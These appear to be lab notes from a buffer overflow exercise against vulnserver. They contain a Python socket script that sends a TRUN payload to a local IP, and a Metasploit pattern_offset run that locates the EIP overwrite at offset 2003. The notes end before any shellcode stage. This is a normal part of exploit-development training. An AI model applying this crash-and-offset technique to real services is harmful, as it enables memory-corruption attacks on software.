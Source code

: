 ## tool to overwrite the EIP
1. Creating a code to send to immunity debugger and vulnserver:
```python
#!/usr/bin/python3

import sys, socket
from time import sleep

offset = "" #offset here

try:
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect(('192.168.1.14',9999))
	print("connect")
	payload = "TRUN /.:/" + offset
	print("payload")
	s.send((payload.encode()))
	print("send")
	s.close()
except:
	print ("Error connecting to server")
	sys.exit()

```

2. We need to create some code using **pattern_create** tool to put as a offset above:
![[buffer_overflow3.png]]
   We just send the above code and then we get a value on the EIP because vulnserver crashes there.

After executing above script, we get the value of EIP in which program crashes.
EIP value - 386F4337

3. Finding in which byte program crashes using EIP value:
```python
┌──(hyok㉿kali)-[~]
└─$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 3000 -q 386F4337
[*] Exact match at offset 2003
```